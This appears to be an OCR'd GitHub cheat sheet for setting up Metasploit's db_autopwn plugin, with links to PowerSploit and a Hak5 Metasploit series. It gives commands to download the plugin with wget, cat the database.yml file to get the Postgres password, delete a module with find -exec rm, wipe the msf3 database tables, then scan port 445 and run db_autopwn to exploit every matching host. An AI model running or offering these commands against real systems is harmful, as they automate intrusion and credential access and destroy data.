             https://github.com/mattifestation/PowerSploit
            
            
            http://hak5.org/category/episodes/metasploit-minute
            
            

autopwn with new MSF bin
-------------------


download autopwn
-------------------

            cd /opt/metasploit/apps/pro/msf3/plugins/
            wget 'https://raw.github.com/neinwechter/metasploit-framework/autopwn-modules/plugins/db_autopwn.rb'
            

get postgres password
-------------------

            cat /opt/metasploit/apps/pro/msf3/config/database.yml
            

remove plugin 
-------------------

            find /opt -iname "*trans2open*" -exec rm '{}' \;
            
            
            # start MSF
            load db_autopwn
            

clear the DB
-------------------

            # pg_hba.conf local   all         all trust restart postgres
            psql msf3 -U msf3
            DELETE FROM hosts;
            DELETE FROM services;
            DELETE FROM events;
            DELETE FROM notes;
            DELETE FROM creds;
            DELETE FROM loots;
            DELETE FROM sessions;
            DELETE FROM clients;
            \q
            
            # gogo
            db_nmap -p 445 10.0.2.2
            db_autopwn -p -t -e  -v
            